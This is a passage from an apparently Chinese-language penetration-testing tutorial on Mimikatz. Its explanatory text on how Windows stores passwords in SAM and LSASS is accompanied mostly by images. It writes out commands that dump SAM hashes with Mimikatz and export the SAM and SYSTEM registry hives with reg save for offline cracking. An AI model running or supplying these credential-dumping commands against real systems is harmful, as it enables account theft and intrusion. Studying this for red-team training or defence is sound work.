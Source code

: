 **(2) s\**ekurlsa模块详解：\****

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2Mt3IITIHdtqqqDpeCIJOXh4RicUiarM7tZ6qWbOERicfSWGCrsOXjicUK3Q/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**(3) \**\*\*process\*\*模块详解：\****

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2M4DUNjWW36FiaEFv391Tia5qmKecbK2IAEJnIUrBqVeDvp1NkFdoFHh4g/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MZA7HgT5hwPLamTaLjGrst83FOicRdVASAexeqhtxib2oP4uaJWKcl2fQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**(4) \**\*\*lsadump\*\*模块详解：\****

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2Mj8fTiaM6kFulnEnESNYcmCeqiadmH1icwkpYUJpicnHZgg6x1Kcs7EjBBQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**注意：**

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MTltlynfBQmWib3VbUMNpZATpm0LtsKYJpvViafibrtBO4B0uSXsNjNa1g/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

2

**电脑系统抓取密码的原理：**

通过读取SAM文件中的Hash或者读取Lsass进程中的明文密码的方式从而获得密码（老版本Windows系统中Lsass进程是以明文形式存储的，新版本win10，win11系统则是密文形式存储的）。

域控制器上的密码不会存储于SAM文件中，而Lsass进程和Windows系统相同，校验后将账号密码临时存储于内存中。

3

**在线读取SAM文件中的HASH值：**

- 
- 

```
命令：shell mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit
```



![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2Mk7u8B9ypElDbTTiaW5uQiaRKXaq8RJj87QHl3GMNYxkmccdkCdl1MwNA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MuM4IuiaX5K6IUibkV6SCicjaNLG4onB4hMmCdFPEwhdhqVaEptBtwvoVw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**离线读取SAM文件中的HASH值：**

(1) 导出SAM文件的两种方法：

**方法一：使用reg命令**

- 
- 

```
命令：shell reg save hklm\sam sam.hive和shell reg save hklm\system system.hive
```

**![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MAKcU007BvLHOG4FPn61bUtde3pnrxB53annAGGiaRIqQhzVUOKfdwYg/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)**

**![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MRnicBaswg56QgcCgs1vTKHln5qRkicUU7qK9Pyyw8MlCrE79J5Dic3icHQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)**
